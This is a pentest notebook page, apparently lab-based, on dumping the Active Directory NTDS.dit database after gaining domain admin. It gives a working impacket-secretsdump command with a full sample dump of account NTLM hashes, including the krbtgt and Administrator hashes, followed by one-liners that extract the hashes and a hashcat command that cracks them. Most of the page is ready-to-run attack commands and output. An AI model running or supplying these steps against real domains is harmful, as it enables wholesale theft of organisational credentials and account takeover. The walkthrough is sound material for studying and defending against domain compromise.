

repository: RayenManai/MyHackBook · page: Active Directory/attacking-ad/post-domain-compromise-attacks/ntds-dumping.html · generator: sphinx

# Dumping the NTDS.dit

## Overview

The NTDS.dit (NT Directory Services Database) is the primary database file used by Active Directory to store all domain data. This includes:

- **User information**: Account details, properties, and metadata.
- **Group information**: Security groups, distribution groups, and memberships.
- **Security descriptors**: Access control lists (ACLs) and permissions for objects.
- **Password hashes**: NTLM and Kerberos key hashes for all user accounts.

Once you have Domain Administrator access, dumping NTDS.dit provides access to every password hash in the domain. Combined with offline cracking, this can yield plaintext passwords for a significant portion of the domain, along with valuable insights for the penetration test report.

## Walkthrough

### 1. Dump NTDS.dit from the Domain Controller

The most straightforward method is using `secretdump.py` from the impacket toolkit. This tool extracts credentials directly from the DC without needing physical access to the NTDS.dit file.

```bash
# Using secretdump with domain admin credentials
impacket-secretsdump -just-dc-ntlm <domain>/<username>:<password>@<domain_controller_ip>
```

The hash format is: `USERNAME:RID:LM_HASH:NTLM_HASH:::`. For most modern systems, the LM hash (first hash) can be ignored; focus on the NTLM hash.

```bash
impacket-secretsdump MARVEL.local/hawkeye:'Password1@'@10.0.2.18 -just-dc-ntlm

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a2345375a47a92754e2505132aca194b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:50e5806d7c53f975dfbf0e6d57a3a9c1:::
vboxuser:1000:aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33:::
MARVEL.local\tstark:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
MARVEL.local\SQLService:1106:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
MARVEL.local\fcastle:1107:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
MARVEL.local\pparker:1108:aad3b435b51404eeaad3b435b51404ee:07d128430a6338f8d537f6b3ae1dc136:::
hawkeye:1113:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
HYDRA-DC$:1001:aad3b435b51404eeaad3b435b51404ee:228f0d82575bba613346904dae3eaca8:::
THEPUNISHER$:1109:aad3b435b51404eeaad3b435b51404ee:1f1e600da217cce8d0e5cd190d61f42e:::
SPIDERMAN$:1110:aad3b435b51404eeaad3b435b51404ee:d0994ac2195e1e81d0f84a2e33f60cfa:::
HBO$:1112:aad3b435b51404eeaad3b435b51404ee:cb933184b9dc563103819a8c1f4df570:::
[*] Cleaning up...
```

### 2. Extract NTLM Hashes

If you've dumped the hashes in a format containing both LM and NTLM, extract just the NTLM hashes for cracking:

```bash
# Extract NTLM hashes from secretdump output
cat secretdump_output.txt | awk -F':' '{print $4}' > ntlm_hashes.txt

# Or using a simple script
grep -oP '(?<=:)[a-f0-9]{32}:[a-f0-9]{32}(?=:::)' secretdump_output.txt | cut -d: -f2 > ntlm_hashes.txt
```

### 3. Crack the NTLM Hashes

Use offline cracking tools to attempt to recover plaintext passwords. Popular options include:

```bash
hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt --show
```
